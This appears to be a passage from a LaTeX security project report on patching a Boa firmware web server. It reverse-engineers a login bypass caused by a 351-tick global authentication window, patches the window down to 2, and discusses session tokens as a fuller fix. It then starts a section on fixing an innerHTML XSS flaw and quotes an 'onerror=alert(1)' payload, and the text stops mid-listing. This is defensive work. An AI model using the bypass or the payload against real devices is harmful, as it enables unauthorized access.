  The login by-pass vulnerability was related to the way Boa handled the authenticated state after a successful login. Before applying the patch, the login page itself accepted the correct credentials and redirected the authenticated user to the home page (Figure~\ref{fig:login_bypass_legitimate_home}). However, shortly after a legitimate login, another unauthenticated user was also able to access the same protected page (Figure~\ref{fig:login_bypass_unauthenticated_home}).

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.8-LoginLeg_prefix.png}
      \caption{Home page accessed by a legitimate authenticated user}
      \label{fig:login_bypass_legitimate_home}
  \end{figure}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.9-LoginIlleg_prefix.png}
      \caption{Unauthenticated user accessing the home page after a recent valid login}
      \label{fig:login_bypass_unauthenticated_home}
  \end{figure}

  This behavior showed that the issue was not only in the credential comparison logic. Instead, Boa was maintaining a temporary global authentication state that could be reused for a short period of time by another request.

  We started the analysis from the login handler. In Ghidra, the relevant function is located around address \emph{0x00444504}. The handler first reads the value of the \emph{submit-value} parameter, used to distinguish between login and language-change operations (Figure~\ref{fig:login_submit_username}). It then reads the submitted username and password from the HTTP request.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.10-Ghidra1.png}
      \caption{Boa login handler reading \emph{submit-value} and \emph{username}}
      \label{fig:login_submit_username}
  \end{figure}

  The password parameter is read shortly after (Figure~\ref{fig:login_password}). At this point, the handler has both user-controlled values needed for authentication.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.11-Ghidra2.png}
      \caption{Boa login handler reading the \emph{password} parameter}
      \label{fig:login_password}
  \end{figure}

  The submitted username is compared against the expected username using \emph{strcmp} (Figure~\ref{fig:login_compare_username}).

\begin{lstlisting}[language=Asm]
jalr    t9          ; strcmp
move    a1, s1      ; submitted username
\end{lstlisting}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.12-Ghidra3.png}
      \caption{Username comparison inside the Boa login handler}
      \label{fig:login_compare_username}
  \end{figure}

  The same logic is then applied to the password. If both comparisons succeed, execution reaches the branch that returns \emph{login\_success} (Figure~\ref{fig:login_compare_password_success}).

\begin{lstlisting}[language=Asm]
jalr    t9          ; strcmp
move    a1, s4      ; submitted password
...
login_success
\end{lstlisting}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.13-Ghidra4.png}
      \caption{Password comparison and \emph{login\_success} response}
      \label{fig:login_compare_password_success}
  \end{figure}

  After identifying the login flow, we analyzed the code executed after a successful authentication. Boa stores a temporary authentication entry in a global table. This entry is marked with the magic value \emph{0xca64} and contains a timestamp.

  We identified this mechanism by observing that, after a successful login, the login handler writes the value \emph{0xca64} into a global table. We then searched the Boa binary for other references to the same constant. Besides the login handler itself, the relevant occurrence was found around address \emph{0x0043fbac}. Inspecting the surrounding code in Ghidra showed that this occurrence belonged to a separate function starting at approximately \emph{0x0043fb68}. This function iterates over the authentication table and decides whether a request should be considered already authenticated.
  \\
  In the vulnerable version, this function checks whether the elapsed time from the saved login timestamp is lower than \emph{351} ticks:

\begin{lstlisting}[language=Asm]
lw      v0, 184(s2)     ; current time
lw      v1, 4(s3)       ; saved login time
subu    v1, v0, v1
sltiu   v1, v1, 351
bnez    v1, authenticated
\end{lstlisting}

  The instruction:

\begin{lstlisting}[language=Asm]
sltiu   v1, v1, 351
\end{lstlisting}

  means that the global authentication entry remains valid while:

\begin{lstlisting}
current_time - saved_login_time < 351
\end{lstlisting}

  Therefore, after a legitimate login, the firmware kept a reusable authenticated state for approximately 350 seconds. This explains why an unauthenticated user could access protected pages shortly after another user had logged. Figures~\ref{fig:before_vulnerable_351} and~\ref{fig:patched_stable_vulnerable_351} show that both Boa versions were still affected by this logic before the login by-pass patch was applied. The first binary was the stabilized pre-RCE-patch Boa, while the second one was the stabilized Boa with the RCE mitigation already applied. In both cases, the authentication timeout check still used the value \emph{351}.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.14-boaNoPatch_vuln.png}
      \caption{\emph{boa.before-boaPatched} with 351-tick authentication window}
      \label{fig:before_vulnerable_351}
  \end{figure}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.15-boapatch_vuln.png}
      \caption{\emph{boa.patched-stable} with 351-tick authentication window}
      \label{fig:patched_stable_vulnerable_351}
  \end{figure}

  To mitigate the issue, we patched the immediate value used by the \emph{sltiu} instruction. Instead of allowing the global authentication entry to remain valid for approximately 350 seconds, we reduced the window to approximately one second:

\begin{lstlisting}[language=Asm]
sltiu   v1, v1, 2
\end{lstlisting}

  The resulting logic becomes:

\begin{lstlisting}
current_time - saved_login_time < 2
\end{lstlisting}

  This keeps the immediate post-login redirect functional, but removes the practical attack window that allowed another unauthenticated user to reuse the recent login state.
  \\
  The patch was applied to both stabilized Boa binaries:

  \begin{itemize}
      \item \emph{boa.before-boaPatched}, used to demonstrate the firmware with RCE still present;
      \item \emph{boa.patched-stable}, used to demonstrate the firmware with RCE mitigated.
  \end{itemize}

  Figures~\ref{fig:before_patched_2} and~\ref{fig:patched_stable_patched_2} show the patched instruction in both binaries.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.16-BoaNoPatch_ok.png}
      \caption{\emph{boa.before-boaPatched} with 2 ticks}
      \label{fig:before_patched_2}
  \end{figure}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.17-Boapatch_ok.png}
      \caption{\emph{boa.patched-stable} with 2 ticks}
      \label{fig:patched_stable_patched_2}
  \end{figure}

  At binary level, the patch changes only the immediate value of the vulnerable instruction:

\begin{lstlisting}[language=Asm]
; vulnerable
sltiu   v1, v1, 351

; patched
sltiu   v1, v1, 2
\end{lstlisting}

  After applying the patch and rebuilding the Firmadyne image, we repeated the test. A legitimate user could still log in normally with valid credentials. However, when an unauthenticated user attempted to access the protected page after the valid login window had expired, Boa redirected the request to the login page and displayed the timeout message (Figure~\ref{fig:login_timeout_after_patch}).

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.18-LoginIlleg_postfix.png}
      \caption{Unauthenticated user redirected to \emph{login.htm} with timeout message}
      \label{fig:login_timeout_after_patch}
  \end{figure}

  This confirms that the login by-pass was caused by an overly long global authentication window rather than by the static web pages themselves. The mitigation was therefore applied directly to Boa, where the vulnerable authentication decision was made. As a result, both firmware configurations used in our tests preserve the expected login behavior while preventing practical reuse of a previous user's authenticated state.
\\
  However, it does not implement a complete session management mechanism. The patched firmware still relies on the same global authentication table. The difference is that the table entry expires almost immediately. As a consequence, the immediate redirect after a successful login still works, but the resulting authenticated state is intentionally short-lived. This means that the patch removes the practical attack window, but it is not equivalent to a modern per-user session system.
\\
  A more complete fix would be to replace the global time-based authentication mechanism with server-side session tokens. In such a design, after a successful login Boa should generate an unpredictable session identifier, store it server-side together with its expiration time, and return it to the browser through a cookie:

\begin{lstlisting}[language=bash]
Set-Cookie: SESSION=<random_token>; Path=/; HttpOnly
\end{lstlisting}

  Then, for every protected request, Boa should parse the \emph{Cookie} header, extract the \emph{SESSION} value, and authorize the request only if the token exists in the server-side session table and has not expired:

\begin{lstlisting}[language=C]
token = get_cookie(request, "SESSION");

if (token == NULL)
    redirect_to_login();

if (!valid_session(token))
    redirect_to_login();

allow_request();
\end{lstlisting}

  This approach would bind the authenticated state to a specific session token instead of relying on a reusable global timestamp. It would also allow a reasonable timeout without exposing the same login by-pass behavior.
\\
  We did not implement this complete session-token mechanism directly in the Boa binary because it would require a much more invasive binary patch. In particular, it would require adding new logic to generate random tokens, store them, send a \emph{Set-Cookie} header in the HTTP response, parse incoming \emph{Cookie} headers, and compare the received token against the server-side table. Since we were patching an already compiled MIPS binary, adding this functionality would require finding or creating code caves, modifying control flow, and carefully preserving the binary layout, register usage, and global pointer assumptions.
\\
  For this reason, the patch implemented in this project should be considered a targeted binary mitigation of the observed CVE behavior, not a full redesign of Boa's authentication system.

    \section{Patching XSS}

          The XSS vulnerability described in Chapter~\ref{chap:exploiting} is caused by unsafe insertion of a user-controlled value into the DOM. In the vulnerable page, the SSID value is assigned to an element through \emph{innerHTML}. This API parses the assigned string as HTML markup. As a consequence, if the SSID contains tags or event handlers, the browser interprets them as part of the document.
\\
          The vulnerable rendering pattern is the following:

\begin{lstlisting}[language=xml]
var ssid = '<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>';

function init() {
    var target = document.getElementById("ssidValue");
    f (target) {
        target.innerHTML = ssid;
    }
}
\end{lstlisting}

          In this case, the browser does not display the SSID as a literal string. It creates an \emph{h1} element, renders the text \emph{XSS\_OK} as HTML, creates an \emph{img} element, and executes the \emph{onerror} JavaScript handler when the image fails to load.
\\
          The mitigation consists in changing the rendering primitive. The SSID must be inserted as text, not as HTML. For this reason, the patched version uses \emph{textContent}:

\begin{lstlisting}[language=xml]
var ssid = '<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>';

